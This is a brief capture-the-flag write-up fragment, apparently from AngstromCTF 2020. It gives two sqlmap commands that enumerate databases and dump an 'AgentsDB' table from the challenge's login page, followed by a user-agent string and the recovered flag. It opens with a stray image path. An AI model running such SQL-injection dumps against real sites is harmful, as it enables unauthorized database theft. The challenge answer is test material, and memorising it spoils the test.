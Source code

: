 sqlmap -u "https://agents.2020.chall.actf.co/login?" --level=3 --dbs <br />
sqlmap -u "https://agents.2020.chall.actf.co/login?" --level=3 -D AgentsDB --dump <br />

UA : 123ujklaguhjnkadsuop98uij2k3l4mlgjaisdopgjk;mlkl;k234lkjhasd89f709iok23jkdf <br />

FLAG : actf{nyoom_1_4m_sp33d}         
